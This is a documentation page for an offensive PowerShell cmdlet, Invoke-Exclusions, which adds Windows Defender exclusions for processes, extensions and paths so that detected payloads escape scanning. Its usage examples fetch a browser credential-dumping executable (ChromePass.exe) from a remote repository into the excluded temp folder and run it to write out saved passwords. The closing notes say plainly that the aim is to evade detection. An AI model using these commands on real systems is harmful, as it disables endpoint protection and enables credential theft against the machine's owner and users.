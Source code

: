 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-Exclusions](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WD-Bypass/Invoke-Exclusions.ps1)|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrl.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"


## Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```

<br />

### Final Notes
```powershell
[DESCRIPTION]
This cmdlet allow users to manage ( query, create, delete ) Windows
Defender exclusions: ExclusionExtension, ExclusionProcess, ExclusionPath.
The files covered by the exclusion definition will be excluded from Windows
Defender Real-time protection, monitoring, Scheduled scans, On-demand scans.

[NOTES]
This cmdlet in addition to add\remove exclusions from windows defender
allows its users to download binaries (PE) that are being detected by the
anti-virus and run it through the exclusion definition (bypassing detection)
Use a comma (,) to split multiple exclusion entrys ( -exclude 'exe,vbs' )

[Parameter URI limitations]
This function creates the exclusion on Defender then downloads the -uri 'script\PE'
to -exclude 'directory' and finally executes the script.ps1 OR the binary (PE) from
the exclusion directory with the intent to evade detection ( download + execution )

But 'execution' of payloads under -uri invocation is advised to be only under
-type parameter 'ExclusionPath', because is exclusion is more comprehensive
```
